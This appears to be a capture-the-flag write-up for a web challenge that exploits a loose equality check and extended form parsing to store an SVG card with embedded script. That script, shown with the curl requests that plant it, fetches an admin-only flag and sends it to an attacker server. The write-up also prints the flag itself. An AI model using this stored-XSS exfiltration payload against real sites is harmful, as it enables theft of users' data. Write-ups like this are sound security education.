 #### Challenge:

Send your loved ones a [Hallmark card](https://hallmark.web.actf.co/)! Maybe even send one to the [admin](https://admin-bot.actf.co/hallmark) 😳.

[Source code](./dist.tar.gz ":ignore")

---

#### Solution:

- inspecting the `index.js` reveals that we can alter already created cards via `PUT` request and change the `type` or `content`
- request handler also contains bug/typo with js `==` vs `===` that can be used for exploit as app is also using extended body parsing
  - `bodyParser.urlencoded({ extended: true })` allow us to pass arrays or objects via form params

- create the custom card with placeholder content
```bash
curl 'https://hallmark.web.actf.co/card' -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'svg=text' --data 'content=<h1>1</h1>'
```
- payload that will use to leak flag from within the admin browser
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
    <script type="text/javascript">
        fetch("/flag").then(r=>r.text()).then(flag=>encodeURIComponent(flag)).then(e=>fetch(`https://myserver/${e}`)).then(console.log);
    </script>
</svg>
```
- alter the `content` and `type` of the previously created `card`
```bash
curl 'https://hallmark.web.actf.co/card' -X PUT \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    --data 'id=44f0d063-7f41-41e3-bdf6-a027b0c157fe' \
    --data 'type[]=image/svg+xml' \
    --data "content=${SVG}"
```

- now all that's left is submit the `https://hallmark.web.actf.co/card?id=44f0d063-7f41-41e3-bdf6-a027b0c157fe` in the `admin` portal and check the logs of our server...

---

<details><summary>FLAG:</summary>

```
actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}
```

</details>
<br/>

